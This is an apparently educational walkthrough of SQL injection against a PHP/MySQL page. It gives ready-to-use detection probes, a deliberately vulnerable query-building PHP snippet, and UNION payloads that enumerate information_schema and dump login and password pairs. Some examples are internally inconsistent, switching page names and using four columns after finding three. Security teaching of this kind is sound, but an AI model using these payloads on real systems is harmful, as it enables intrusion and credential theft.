


Detection and Exploitation
Detection and exploitation of SQL injection
Detection of SQL injection
Introduction to SQL
In order to understand, detect and exploit SQL injections, you need to understand the Structured Query Language (SQL). SQL allows a developer to perform the following requests:
• retrieve information using the
SELECT statement;
• update information using the
UPDATE statement;
• add new information using the
INSERT statement;
• delete information using the
DELETE statement.
More operations (to create/remove/modify tables, databases or triggers) are available but are less likely to be used in web applications.
The most common query used by web sites is the SELECT statement which is used to retrieve information from the database. The SELECT statement follows the following syntax:
SELECT column1, column2, column3 FROM table1 WHERE column4='string1' AND column5=integer1 AND column6=integer2;In this query, the following information is provided to the database:
• the
SELECT statement indicates the action to perform: retrieve information;
• the list of columns indicates what columns are expected;
• the
FROM table1 indicates from what tables the records are fetched;
• the conditions following the
WHERE statement are used to indicate what conditions the records should meet.
The
string1 value is delimited by a simple quote and the integers
integer1 and
integer2 can be delimited by a simple quote (
integer2) or just put directly in the query (
integer1).
For example, let see what the request:
SELECT column1, column2, column3 FROM table1 WHERE column4='user' AND column5=3 AND column6=4;will retrieve from the following table:
| column1 | column2 | column3 | column4 | column5 | column6 |
|---|
| 1 | test | Paul | user | 3 | 13 |
| 2 | test1 | Robert | user | 3 | 4 |
| 3 | test33 | Super | user | 3 | 4 |
Using the previous query, the following results will be retrieved:
| column1 | column2 | column3 |
|---|
| 2 | test1 | Robert |
| 3 | test33 | Super |
As we can see, only these values are returned since they are the only ones matching all of the conditions in the
WHERE statement.
If you read source code dealing with some databases, you will often see
SELECT * FROM tablename. The
* is a wildcard requesting the database to return all columns and avoid the need to name them all.
Detection based on Integers
Since error messages are displayed, it's quite easy to detect any vulnerability in the website. SQL injections can be detected using any and all of the following methods.
All these methods are based on the general behaviour of databases, finding and exploiting SQL injections depends on a lot of different factors, although these methods are not 100% reliable on their own. This is why you may need to try several of them to make sure the given parameter is vulnerable. Let's take the example of a shopping website, when accessing the URL /cat.php?id=1, you will see the picture article1. The following table shows what you will see for different values of id:
| URL | Article displayed |
|---|
| /article.php?id=1 | Article 1 |
| /article.php?id=2 | Article 2 |
| /article.php?id=3 | Article 3 |
The PHP code behind this page is:
<?php
$id = $_GET["id"];
$result= mysql_query("SELECT * FROM articles WHERE id=".$id);
$row = mysql_fetch_assoc($result);
// ... display of an article from the query result ...
?>
The value provided by the user (`$_GET["id]`) is directly echoed in the SQL request.For example, accessing the URL:* `/article.php?id=1` will generate the following request: `SELECT * FROM articles WHERE id=1`* `/article.php?id=2` will generate the following request `SELECT * FROM articles WHERE id=2`If a user try to access the URL `/article.php?id=2'`, the following request will be executed `SELECT * FROM articles WHERE id=2'`. However, the syntax of this SQL request is incorrect because of the single quote `'` and the database will throw an error. For example, MySQL will throw the following error message:You have an error in your SQL syntax; check the
manual that corresponds to your MySQL server
version for the right syntax to use near
''' at line 1
This error message may or may not be visible in the HTTP response depending on the PHP configuration.
The value provided in the URL is directly echoed in the request and considered as an integer, this allows you to ask the database to perform basic mathematical operation for you:
• if you try to access
/article.php?id=2-1, the following request will be sent to the database
SELECT * FROM articles WHERE id=2-1, and the article1's information will be display in the web page since the previous query is equivalent to
SELECT * FROM articles WHERE id=1 (the subtraction will be automatically performed by the database).
• if you try to access
/article.php?id=2-0, the following request will be sent to the database
SELECT * FROM articles WHERE id=2-0, and the article2's information will be displayed in the web page since the previous query is equivalent to
SELECT * FROM articles WHERE id=2.
These properties provide a good method of detecting SQL injection:
• if accessing /article.php?id=2-1 displays article1 and accessing /article.php?id=2-0 displays article2, the subtraction is performed by the database, and you're likely to have found a SQL injection
• if accessing /article.php?id=2-1 displays article2 and accessing /article.php?id=2-0 displays article2 as well, it's unlikely that you have SQL injection on an integer, but you may have SQL injection on a string value as we will see.
• if you put a quote in the URL (
/article.php?id=1'), you should receive an error.
Even if a value is an integer (for example categorie.php?id=1), it can be used as a string in the SQL query:
SELECT * FROM categories where id='1'.
SQL allows both syntax, however using a string in the SQL statement will be slower than using an integer.
Detection on Strings
As we saw before in "Introduction to SQL", strings in an SQL query are put between quotes when used as value (example with 'test'):
SELECT id,name FROM users where name='test';
If SQL injection is present in the web page, injecting a single quote
' will break the query syntax and generate an error. Furthermore, injecting 2 times a single quote
'' won't break the query anymore. As a general rule, an odd number of single quotes will throw an error, an even number of single quotes won't.
It is also possible to comment out the end of the query, so in most cases you won't get an error (depending on the query format). To comment out the end of the query you can use
' --.
For example the query, with an injection point in the test value:
SELECT id,name FROM users where name='test' and id=3;
will become:
SELECT id,name FROM users where name='test' -- ' and id=3;
and will get interpreted as:
SELECT id,name FROM users where name='test'
However this test can still generate an error if the query follows the pattern below:
SELECT id,name FROM users where ( name='test' and id=3 );
Since the right parenthesis will be missing once the end of the query is commented out. You can obviously try with one or more parenthesis to find a value that doesn't create an error.
Another way to test it, is to use
' and '1'='1, this injection is less likely to impact the query since it is less likely to break it. For example if injected in the previous query, we can see that the syntax is still correct:
SELECT id,name FROM users where ( name='test' and '1'='1' and id=3 );
Furthermore and
' and '1'='1 is less likely to impact the semantic of the request and the results of with and without injection are likely to be the same. We can then compare it with the page generated using the following injection
' and '1'='0 which is less likely to create an error but is likely to change the semantic of the query.
SQL injection is not an accurate science and a lot of things can impact the result of your testing. If you think something is going on, keep working on the injection and try to figure out what the code is doing with your injection to ensure it's an SQL injection. In order to find the SQL injection, you need to visit the website and try these methods on all parameters for each page. Once you have found the SQL injection, you can move to the next section to learn how to exploit it.
Exploitation of SQL injections
Now We have found a SQL injection in the page
http://vulnerable/cat.php, in order to go further, we will need to exploit it to retrieve information. To do so, we will need to learn about the
UNION keyword available in SQL.
The UNION keyword
The UNION statement is used to put together information from two requests:
SELECT * FROM articles WHERE id=3 UNION SELECT ...
Since it is used to retrieve information from other tables, it can be used as a SQL injection payload. The beginning of the query can't be modify directly by the attacker since it's generated by the PHP code. However using UNION, the attacker can manipulate the end of the query and retrieve information from other tables:
SELECT id,name,price FROM articles WHERE id=3
UNION SELECT id,login,password FROM users
The most important rule, is that both statements should return the same number of columns otherwise the database will trigger an error.
Exploiting SQL injections with UNION
Exploiting SQL injection using
UNION follows the steps below:
1. Find the number of columns to perform the UNION
2. Find what columns are echoed in the page
3. Retrieve information from the database meta-tables
4. Retrieve information from other tables/databases
In order to perform a request by SQL injection, you need to find the number of columns that are returned by the first part of the query. Unless you have the source code of the application, you will have to guess this number.
There are two methods to get this information:
• using UNION SELECT and increase the number of columns;
• using ORDER BY statement.
If you try to do a UNION and the number of columns returned by the two queries are different, the database will throw an error:
The used SELECT statements have a different
number of columns
You can use this property to guess the number of columns. For example, if you can inject in the following query:
SELECT id,name,price FROM articles where id=1. You will try the following steps:
•
SELECT id,name,price FROM articles where id=1 UNION SELECT 1, the injection
1 UNION SELECT 1 will return an error since the number of columns are different in the two sub-parts of the query;
•
SELECT id,name,price FROM articles where id=1 UNION SELECT 1,2, for the same reason as above, the payload
1 UNION SELECT 1,2 will return an error;
•
SELECT id,name,price FROM articles where id=1 UNION SELECT 1,2,3, since both sub-parts have the same number of columns, this query won't throw an error. You may even be able to see one of the numbers in the page or in the source code of the page.
NB: this works for MySQL the methodology is different for other databases, the values 1,2,3,... should be changed to null,null,null, ... for database that need the same type of value in the 2 sides of the UNION keyword. For Oracle, when SELECT is used the keyword FROM needs to be used, the table dual can be used to complete the request:
UNION SELECT null,null,null FROM dual The other method uses the keyword
ORDER BY.
ORDER BY is mostly used to tell the database what column should be used to sort results:
SELECT firstname,lastname,age,groups FROM users ORDER BY firstname
The request above will return the users sorted by the firstname column.
ORDER BY can also be used to with an integer to tell the database to sort by the column number X:
SELECT firstname,lastname,age,groups FROM users ORDER BY 3
The request above will return the users sorted by the third column.
This feature can be used to detect the number of columns, if the column number in the
ORDER BY statement is bigger than the number of columns in the query, an error is thrown (example with 10):
Unknown column '10' in 'order clause'
You can use this property to guess the number of columns. For example, if you can inject in the following query:
SELECT id,name,price FROM articles where id=1. You can try the following steps:
•
SELECT id,name,price FROM articles where id=1 ORDER BY 5, the injection
1 ORDER BY 5 will return an error since the number of columns is less than 5 in the first part of the query;
•
SELECT id,name,price FROM articles where id=1 ORDER BY 3, the injection
1 ORDER BY 3 will not return an error since the number of columns is less than or equal of 3 in the first part of the query;
•
SELECT id,name,price FROM articles where id=1 ORDER BY 4, the injection
1 ORDER BY 4 will return an error since the number of columns is less than 4 in the first part of the query;
Based on this dichotomic search, we know that the number of columns is 3, we can now use this information to build the final query:
SELECT id,name,price FROM articles where id=1 UNION SELECT 1,2,3
Even if this methodology provides the same number of requests for this example, it's significantly faster as soon as the number of columns grow.
Retrieving information
Now that we know the number of columns, we can retrieve information from the database. Based on the error message we received, we know that the backend database used is MySQL.
Using this information, we can force the database to perform a function or to send us information:
• the user used by the PHP application to connect to the database with
current_user()• the version of the database using
version()In order to perform this, we are going to need to replace one of the values in the previous statement (
UNION SELECT 1,2,3) by the function we want to run in order to retrieve the result in the response.
Make sure you always keep the right number of columns when you try to retrieve information. You can for example access the following URL's to retrieve this information:
• the database version:
http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4• the current user:
http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,current_user(),3,4• the current database:
http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,database(),3,4We are now able to retrieve information from the database and retrieve arbitrary content. In order to retrieve information related to the current application, we are going to need:
• the name of all tables in the current database
• the name of the column for the table we want to retrieve information from
MySQL provides tables containing meta-information about the database, tables and columns available since the version 5 of MySQL. We are going to use these tables to retrieve the information we need to build the final request. These tables are stored in the database information_schema.
The following queries can be used to retrieve:
• the list of all tables:
SELECT table_name FROM information_schema.tables• the list of all columns:
SELECT column_name FROM information_schema.columns By mixing these queries and the previous URL, you can guess what page to access to retrieve information:
• the list of tables:
1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables• the list of columns:
1 UNION SELECT 1,column_name,3,4 FROM information_schema.columnsThe problem, is that these requests provide you a raw list of all tables and columns, but to query the database and retrieve interesting information, you will need to know what column belongs to what table. Hopefully, the table information_schema.columns stores table names:
SELECT table_name,column_name FROM information_schema.columns
To retrieve this information, we can either
• put tablename and columnname in different parts of the injection:
1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns• concatenate tablename and columnname in the same part of the injection using the keyword CONCAT:
1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns.
':' is used to be able to easily split the results of the query.
If you want to easily retrieve information from the resulting page using a regular expression (if you want to write an SQL injection script for example), you can use a marker in the injection: ``1 UNION SELECT 1,concat('^^^',table_name,':',column_name,'^^^') FROM information_schema.columns`. It then is really easy to match the result in the page. You have now a list of tables and their columns, the first tables and columns are the default MySQL tables. At the end of the HTML page, we can see a list of tables that are likely to be used by the current application:

Using this information, you can now build a query to retrieve information from this table:
1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;
And get the username and password used to access the administration pages:

The SQL injection provided the same level of access as the user used by the application to connect to the database (current_user())... That is why it is always important to provide the lowest privileges possible to this user when you deploy a web application.